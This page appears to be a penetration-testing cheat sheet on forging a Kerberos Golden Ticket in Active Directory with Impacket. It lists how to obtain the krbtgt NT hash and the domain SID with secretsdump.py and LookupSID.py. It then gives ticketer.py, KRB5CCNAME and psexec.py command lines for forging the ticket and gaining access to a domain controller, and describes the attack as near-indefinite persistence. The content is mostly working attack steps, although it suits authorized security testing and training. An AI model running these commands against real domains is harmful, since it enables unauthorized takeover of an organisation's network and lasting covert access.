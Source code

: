 ```yaml
---
description: >-
  A Golden Ticket attack is a type of attack in which an adversary gains control
  over an Active Directory Key Distribution Service Account (KRBTGT), and uses
  that account to forge valid Kerberos Tickets
---
```


# Create Golden Ticket

This attack will allow you to persist in an environment almost indefinitely.

**Requirements:**

* Impacket

## Prerequisites for creating a Golden Ticket:

1. The NT hash of the `krbtgt` account. This can be obtained from running `secretsdump.py` on the Domain Controller.
2. Domain SID. This can be obtained by using `LookupSID.py` on the Domain Controller.
3. Domain name. This can be gathered by querying it on the Domain Controller or will have been gathered throughout the penetration test.
4. Username to impersonate. This should be a valid user on the domain.

## Creating a Golden Ticket on Linux with Impacket

Use ticket.py to customize, sign, and save the ticket:\
`ticketer.py -nthash [NTHASH] -domain-sid [SID] -domain [DOMAIN] [USER]`

Export the ticket:\
`export KRB5CCNAME=[USER.CCACHE]`

Authenticate with the created ticket to the domain controller:\
`psexec.py [DOMAIN]/[USER]@[HOST] -k -no-pass -dc-ip [DOMAINCONTROLLER]`

## References

* [Microsoft Active Directory Golden Ticket Attacks Explained](https://www.qomplx.com/qomplx-knowledge-golden-ticket-attacks-explained/)
